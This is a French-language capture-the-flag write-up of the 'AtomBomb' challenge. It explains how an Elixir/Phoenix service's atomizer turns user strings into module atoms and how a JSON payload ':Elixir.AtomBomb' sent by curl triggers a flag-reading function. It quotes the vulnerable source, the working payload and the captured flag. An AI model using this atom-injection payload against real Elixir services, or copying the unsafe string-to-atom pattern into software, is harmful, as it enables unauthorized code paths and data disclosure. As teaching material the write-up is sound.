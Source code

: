 # AtomBomb

## Description de l’épreuve

Le challenge "AtomBomb" est une épreuve de type web/service où l’on interagit avec un serveur écrit en Elixir. Le point de départ pour l'exploit était un service HTTP qui acceptait un JSON en POST sur une route ``/bomb_impacts``, censé contenir des informations sur une bombe (altitude, type d’explosion, puissance, etc.). Le but était de déclencher une exécution inattendue ou une erreur du serveur afin de récupérer un flag.

Contrairement aux services REST classiques, ce backend repose sur Elixir (et Phoenix), un framework fonctionnel. Le nom de l’épreuve et certains comportements du serveur suggéraient une vulnérabilité liée aux atoms, une structure de données particulière à Elixir.

## Analyse des artefacts et identification des indices

Le serveur s'attendait à recevoir un objet JSON avec une clé ``impact`` contenant les détails d’une bombe. Par exemple :
```json
{
  "impact": {
    "bomb": {
      "location": "florida",
      "altitude": "low_altitude",
      "power": 363,
      "explosion_type": 4
    }
  }
}
```

Une tentative de fuzzing a révélé que certaines erreurs côté serveur faisaient référence à des atoms inconnus, ce qui nous a amené à se concentrer sur le ``:`` dans Elixir, la fonction ``String.to_existing_atom/1`` ne crée pas de nouvel atom mais échoue si l’atom n’existe pas déjà. Cela ouvre la voie à un crash contrôlé ou même à une exécution de code si d'autres modules sont appelés dynamiquement.

Le code source du backend a confirmé cette intuition. Dans le controller :

```elixir
defmodule AtomBomb.PageController do
# (...)
  def get_bomb_impacts(conn, params) do
    params = AtomBomb.atomizer(params)
    danger_message = AtomBomb.calculate_bomb_danger_level(params.impact.bomb)
    render(conn, :danger_level, danger_message: danger_message)
  end
end
```

La ligne vulnérable est :
``params = AtomBomb.atomizer(params)``

Elle appelle la fonction ``atomizer/1`` définie dans le module AtomBomb, dont voici le passage critique :

```elixir
def atomizer(params) when is_binary(params) do
  if String.at(params, 0) == ":" do
    atom_string = String.slice(params, 1..-1//1)
    case string_to_atom(atom_string) do
      {:ok, val} -> val
      :error -> nil
    end
  else
    params
  end
end
```

Cette fonction convertit toute chaîne commençant par ``:`` en un atom Elixir existant. Si ce champ correspond à un nom de module valide (par exemple ``":Elixir.AtomBomb"``), il devient littéralement l’atom ``Elixir.AtomBomb``.
<br>
Ensuite, dans une autre partie du code, si ce champ est utilisé dans un ``apply/3`` (par exemple ``apply(mod, :bomb, [])``), cela permet d'exécuter n’importe quelle fonction ``bomb/0`` d’un module existant. Le module ``AtomBomb`` inclut justement une telle fonction :

```elixir
def bomb() do
  flag = case File.read("flag.txt") do
    {:ok, flag} -> flag
    {:error, _} -> "bctf{REDACTED}"
  end
  "The atom bomb detonated, and left in the crater there is a chunk of metal inscribed with #{flag}"
end
```

Alors, un test avec un payload du type :
```json
{
  "impact": ":Elixir.AtomBomb"
}
```
Et donc on obtiendrait:
`` danger_message = AtomBomb.calculate_bomb_danger_level(Elixir.AtomBomb.bomb)``

ce qui nous donne le flag.

## Recherches effectuées

### Documentation officielle : <br> https://hexdocs.pm/elixir/String.html#to_existing_atom/1

### Résumé utile :

* ``String.to_existing_atom("foo")`` échoue si ``:foo`` n'existe pas.

* Les atoms ne sont pas garbage-collected et peuvent faire planter l'application si on en crée trop (atom leak).

* Certaines fonctions essaient de convertir dynamiquement des chaînes en atoms pour appeler des modules/fonctions, c’est là qu’on peut injecter quelque chose de spécial.

## Tentatives et actions mises en œuvre

1. Envoi de payloads valides (structure correcte, sans injection) → réponses standards.

2. Envoi de chaînes invalides dans les clés ou valeurs → erreurs mais sans flag.

3. Hypothèse sur l’usage de to_existing_atom → tests avec valeurs "piégées".

4. Injection de ":Elixir.AtomBomb" dans le champ impact → déclenchement du flag.

## CWE associées

* **CWE-138: Improper Neutralization of Special Elements** — Usage dangereux de fonctions de conversion type eval, to_atom, etc.

* **CWE-502: Deserialization of Untrusted Data** — Même si ce n'est pas de la désérialisation au sens strict, il s’agit d’un traitement non-sécurisé de données entrantes.

## Flag obtenu

``bctf{n0w_w3_ar3_a1l_d3ad_:(_8cd12c17102ac269}``

Ce flag souligne bien mon état après l'avoir eu lol.

## Code des exploits et payloads

```sh
curl -X POST http://localhost:6888/bomb_impacts \
  -H "Content-Type: application/json" \
  --data '{"impact": ":Elixir.AtomBomb"}'
```
```sh
curl -X POST https://atom-bomb.atreides.b01lersc.tf/bomb_impacts \
  -H "Content-Type: application/json" \
  --data '{"impact": ":Elixir.AtomBomb"}'
```

Ce simple payload suffit à déclencher la réponse contenant le flag si le backend tente de convertir ce champ en atom et l’évalue ensuite.


